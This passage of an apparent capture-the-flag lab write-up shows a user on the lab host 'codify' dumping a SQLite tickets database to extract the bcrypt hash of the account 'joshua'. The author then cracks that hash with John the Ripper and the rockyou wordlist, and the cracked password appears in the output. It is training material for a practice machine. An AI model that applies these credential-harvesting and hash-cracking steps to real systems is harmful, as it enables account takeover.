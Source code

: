 It is a SQLite database. With strings you can see that it contains information about joshua.

```shell
svc@codify:/var/www$ stringstrings ./contact/tickets.db | grep -i joshua
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
```

"sqlite3" is used to open the db.

```shell
svc@codify:/var/www$ sqlitesqlite3 ./contact/tickets.db
sqlite3 ./contact/tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .databases
main: /var/www/contact/tickets.db r/w
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    );
INSERT INTO users VALUES(3,'joshua','$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2');
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT);
INSERT INTO tickets VALUES(1,'Tom Hanks','Need networking modules','I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!','open');
INSERT INTO tickets VALUES(2,'Joe Williams','Local setup?','I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.','open');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('users',3);
INSERT INTO sqlite_sequence VALUES('tickets',5);
COMMIT;
```

In the "users" table there is the user "joshua" with his own password hash. It's John The Ripper Time.

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:00:43 DONE (2024-01-31 10:24) 0.02287g/s 31.29p/s 31.29c/s 31.29C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
